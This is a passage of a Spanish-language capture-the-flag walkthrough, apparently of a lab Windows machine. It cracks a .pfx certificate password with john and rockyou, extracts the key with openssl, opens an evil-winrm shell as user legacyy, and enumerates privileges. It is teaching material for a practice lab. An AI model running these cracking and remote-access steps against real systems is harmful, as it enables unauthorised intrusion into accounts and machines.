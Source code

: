 Ahora con la herramienta `john` tratamos de encontrar la contraseña:

```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hashed
Using default input encoding: UTF-8
Loaded 1 password hash (pfx [PKCS12 PBE (.pfx, .p12) (SHA-1 to SHA-512) 256/256 AVX2 8x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
thuglegacy       (legacyy_dev_auth.pfx)
1g 0:00:00:17 DONE (2023-07-16 20:24) 0.05817g/s 188001p/s 188001c/s 188001C/s thyriana..thsco04
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Ahora que tenemos la contraseña, podemos generar las llaves:

```bash
❯ openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out pfx.crt
Enter Import Password:
❯ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out priv.key
Enter Import Password:
Enter PEM pass phrase:
Verifying - Enter PEM pass phrase:
```

Ahora ya tenemos los archivos para conectarnos a la máquina con `evil-winrm`:

```bash
❯ evil-winrm -i 10.10.11.152 -c ./pfx.crt -k ./priv.key -p -u -S
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: SSL enabled
                                        
Info: Establishing connection to remote endpoint
Enter PEM pass phrase:
*Evil-WinRM* PS C:\Users\legacyy\Documents> whoami
timelapse\legacyy
*Evil-WinRM* PS C:\Users\legacyy\Documents>
```

Ya nos encontramos dentro de la máquina como el usuario **legacyy** y podemos visualizar la flag (user.txt). Ahora debemos encontrar una forma de escalar privilegios, así que vamos a enumerar un poco el sistema:

```bash
*Evil-WinRM* PS C:\Users\legacyy\Desktop> whoami /priv
Enter PEM pass phrase:

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
*Evil-WinRM* PS C:\Users\legacyy\Desktop>
```
